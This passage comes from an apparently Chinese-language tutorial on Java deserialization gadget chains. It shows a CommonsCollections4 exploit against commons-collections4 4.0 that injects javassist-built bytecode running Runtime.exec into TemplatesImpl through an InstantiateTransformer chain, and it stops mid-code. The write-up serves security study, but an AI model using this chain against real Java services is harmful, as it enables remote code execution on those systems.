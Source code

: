 ```java
        } catch (IllegalAccessException var8) {
            throw new FunctorException("InstantiateTransformer: Constructor must be public", var8);
        } catch (InvocationTargetException var9) {
            throw new FunctorException("InstantiateTransformer: Constructor threw an exception", var9);
        }
    }
```

this.iArgs的值为我们构造的templatesImpl，程序在注释1出实际执行的是templatesImpl.newTransformer()，后面的利用原理和CommonsCollections2类似，不再赘述。

## CommonsCollections4

### 版本适用范围

commons-collections4 4.0

### Exp展示

```java
import  com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class CommonsCollections4 {
    public static void main(String[] args) throws Exception {
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsCollections44444444");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");

        byte[] bytes = payload.toBytecode();

        Object templates = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();

        Field field=templates.getClass().getDeclaredField("_bytecodes");
        field.setAccessible(true);
        field.set(templates,new byte[][]{bytes});

        Field name=templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"test");

        Transformer[] trans = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[]{Templates.class},
                        new Object[]{templates})
        };// 主要是这里的变化
```